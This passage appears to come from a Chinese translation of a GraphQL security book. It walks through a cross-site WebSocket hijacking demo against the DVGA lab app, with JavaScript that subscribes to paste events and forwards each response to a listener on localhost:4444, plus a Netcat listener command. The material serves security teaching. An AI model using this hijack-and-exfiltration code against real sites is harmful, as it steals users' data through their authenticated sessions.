 让我们首先检查底层代码，了解攻击模式。将 CSWSH 劫持代码保存到[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/websockets_hijack.html`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch09/websockets_hijack.html)并保存在桌面上。确保文件名具有*.html*扩展名。清单 9-12 显示了代码。

```
<html>
  <h2>WebSockets Hijacking and GraphQL Subscription Response Exfiltration Demo</h2>
</html>

<script>
    const GQL = {
      CONNECTION_INIT: 'connection_init',
      CONNECTION_ACK: 'connection_ack',
      CONNECTION_ERROR: 'connection_error',
      CONNECTION_KEEP_ALIVE: 'ka',
      START: 'start',
      STOP: 'stop',
      CONNECTION_TERMINATE: 'connection_terminate',
      DATA: 'data',
      ERROR: 'error',
      COMPLETE: 'complete'
    }

  ws = new WebSocket('ws://localhost:5013/subscriptions'); ❶
  ws.onopen = function start(event) {
        var query = 'subscription getPaste {paste { id title content
ipAddr userAgent public owner {name} } }'; ❷

        var graphqlMsg = {
             type: GQL.START,
             payload: {query}
        };
        ws.send(JSON.stringify(graphqlMsg)); ❸
  }
  ws.onmessage = function handleReply(event) {
    data = JSON.parse(event.data) ❹
    fetch('http://localhost:4444/?'+ JSON.stringify(data), {mode: 'no-cors'}); ❺
  }
</script>
```

清单 9-12：执行 WebSocket 劫持的 JavaScript 代码

我们初始化一个新的`WebSocket`对象，并指定 DVGA 的订阅 URL ❶。在❷处，我们声明一个`query`变量，其中包含订阅查询。该查询订阅`paste`事件，并提取字段，如`id`、`title`、`content`、`ipAddr`、`userAgent`、`public`和所有者的`name`。在❸处，我们通过 WebSocket 协议发送一个包含此查询的 JSON 字符串。发送完消息后，当收到 WebSocket 消息时，将调用`ws.onmessage`事件处理程序。该处理程序会将消息解析为 JSON 对象 ❹。消息解析完成后，代码在❺处通过使用 GET URL 参数将响应提取到目标位置（在此情况下是*http://localhost:4444*）。

让我们开始吧！在终端窗口中，运行以下命令以启动 Netcat 监听器：

```
# **nc -vlp 4444**

listening on [any] 4444 ...
```
